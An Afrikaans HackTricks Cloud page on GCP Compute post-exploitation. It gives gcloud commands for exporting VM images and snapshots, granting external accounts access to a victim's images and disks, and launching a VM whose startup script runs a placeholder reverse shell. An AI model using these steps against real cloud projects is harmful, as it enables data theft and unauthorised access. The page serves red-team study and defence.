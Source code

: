 # GCP - Compute Post Exploitation

{% hint style="success" %}
Leer en oefen AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer en oefen GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**intekenplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repo's.

</details>
{% endhint %}

## Compute

Vir meer inligting oor Compute en VPC (Netwerking) kyk:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Exporteer & Inspekteer Beelde plaaslik

Dit sal 'n aanvaller toelaat om **toegang te verkry tot die data wat binne reeds bestaande beelde vervat is** of **nuwe beelde van lopende VMs te skep** en toegang tot hul data te verkry sonder om toegang tot die lopende VM te hê.

Dit is moontlik om 'n VM-beeld na 'n emmer te exporteer en dit dan af te laai en plaaslik te monteer met die opdrag:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Vir die uitvoering van hierdie aksie mag die aanvaller voorregte oor die stoor emmer benodig en beslis **voorregte oor cloudbuild** aangesien dit die **diens** is wat gevra gaan word om die uitvoer te doen.\
Verder, vir hierdie om te werk, moet die codebuild SA en die compute SA bevoorregte toestemmings hê.\
Die cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` benodig:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

En die SA `<project-id>-compute@developer.gserviceaccount.com` benodig:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Voer uit & Inspekteer Snapshots & Skywe plaaslik

Dit is nie moontlik om direk snapshots en skywe uit te voer nie, maar dit is moontlik om **'n snapshot in 'n skyf te transformeer, 'n skyf in 'n beeld** en volgens die **vorige afdeling**, daardie beeld uit te voer om dit plaaslik te inspekteer

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspekteer 'n Beeld deur 'n VM te skep

Met die doel om toegang te verkry tot die **data wat in 'n beeld gestoor is** of binne 'n **lopende VM** van waar 'n aanvaller **'n beeld geskep het,** is dit moontlik om 'n eksterne rekening toegang oor die beeld te gee:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
en dan 'n nuwe VM daarvan skep:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
As jy nie jou eksterne rekening toegang oor beeld kon gee nie, kan jy 'n VM lanseer met daardie beeld in die slagoffer se projek en **die metadata laat 'n omgekeerde dop uitvoer** om toegang tot die beeld te kry deur die parameter by te voeg:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspekteer 'n Snapshot/Skyf deur dit aan 'n VM te koppel

Met die doel om toegang te verkry tot die **data wat op 'n skyf of 'n snapshot gestoor is, kan jy die snapshot in 'n skyf omskep, 'n skyf in 'n beeld en die vorige stappe volg.**

Of jy kan **toegang aan 'n eksterne rekening oor die skyf verleen** (as die beginpunt 'n snapshot is, gee toegang oor die snapshot of skep 'n skyf daaruit):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Heg die skyf** aan 'n instansie:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Mount die skyf binne die VM:

1.  **SSH in die VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Identifiseer die Skyf**: Sodra jy binne die VM is, identifiseer die nuwe skyf deur die skyf toestelle te lys. Tipies kan jy dit vind as `/dev/sdb`, `/dev/sdc`, ens.
3. **Formateer en Mount die Skyf** (as dit 'n nuwe of rou skyf is):
*   Skep 'n mount punt:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Mount die skyf:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

As jy **nie toegang kan gee aan 'n eksterne projek** tot die snapshot of skyf nie, mag jy nodig hê om **hierdie aksies binne 'n instansie in dieselfde projek as die snapshot/skyf uit te voer**.

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**intekenplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
